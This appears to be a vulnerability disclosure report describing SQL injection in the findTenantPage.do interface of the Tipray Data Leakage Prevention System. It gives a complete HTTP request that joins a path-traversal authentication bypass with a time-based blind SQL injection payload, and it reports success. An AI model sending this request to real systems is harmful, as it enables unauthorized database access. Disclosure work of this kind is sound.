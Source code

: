 # SQL Injection Vulnerability in the findTenantPage.do Interface of Tipray Data Leakage Prevention System

## Basic Overview
We have already learned about some basic information of the system developer and the reasons for authentication bypass in https://github.com/FightingLzn9/vul/blob/main/%E5%A4%A9%E9%94%90%E6%95%B0%E6%8D%AE%E6%B3%84%E9%9C%B2%E9%98%B2%E6%8A%A4%E7%B3%BB%E7%BB%9F-1.md.

To reduce your review burden, we will not repeat the details in this report.

## Vulnerability Analysis
We found a sink point in `com.trwfe.controller.InvokerController#findTenantPage`. As stated in our previous report, we know that the `PageVo` class is insecure and its parameters are user-controllable.

<img width="1580" height="478" alt="image" src="https://github.com/user-attachments/assets/bbaf2b14-6723-42ce-a460-fd4dc4cedf30" />

Let’s continue to trace further.

<img width="1745" height="1171" alt="image" src="https://github.com/user-attachments/assets/44eb44b9-d4dc-44ae-9b62-1472ffd1a249" />

Here, direct parameter concatenation leads to injection.

<img width="2040" height="428" alt="image" src="https://github.com/user-attachments/assets/85f77de0-8e42-4f67-8155-339e63817b63" />

Based on this, we constructed the payload:

```
POST http://ip/trwfe/login.jsp/..;/invoker/findTenantPage.do HTTP/1.1
Host: ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 15_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/18.3 Safari/605.1.15
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 51

sort=1+AND+(SELECT+8234+FROM+(SELECT+SLEEP(4))test)
```

<img width="1884" height="884" alt="image" src="https://github.com/user-attachments/assets/f989a554-9caf-4437-a10e-44362aeb8914" />

The injection was successfully triggered, resulting in a 4-second delay.

Thank you for your review. Wish you a pleasant day!
